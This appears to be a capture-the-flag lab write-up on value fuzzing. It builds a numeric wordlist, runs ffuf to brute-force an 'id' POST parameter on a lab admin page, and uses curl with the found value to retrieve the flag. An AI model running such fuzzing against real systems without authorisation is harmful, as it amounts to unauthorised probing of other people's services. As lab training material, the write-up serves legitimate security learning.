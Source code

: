 # Value Fuzzing

### Try to create the 'ids.txt' wordlist, identify the accepted value with a fuzzing scan, and then use it in a 'POST' request with 'curl' to collect the flag. What is the content of the flag?

{% hint style="info" %}
Don't forget to edit the /etc/host file id needed :smile:
{% endhint %}

As suggested, we'll create a custom ids.txt file to fuzz the application

{% code overflow="wrap" %}
```bash
for i in $(seq 1 1000); do echo $i >> ids.txt; done                                                                                                     
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We'll then fuzz the application with our custom wordlist with the following command:

{% code overflow="wrap" %}
```shell
ffuf -w ids.txt:FUZZ -u http://admin.academy.htb:37515/admin/admin.php -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded'        
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After we successfully fuzzed the application, as the image above shows, we found a working `id`.

Now, all we have to do is send a curl command to see the content of the page:

{% code overflow="wrap" %}
```sh
curl http://admin.academy.htb:37515/admin/admin.php -X POST -d 'id=73' -H 'Content-Type: application/x-www-form-urlencoded'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we found our flag!
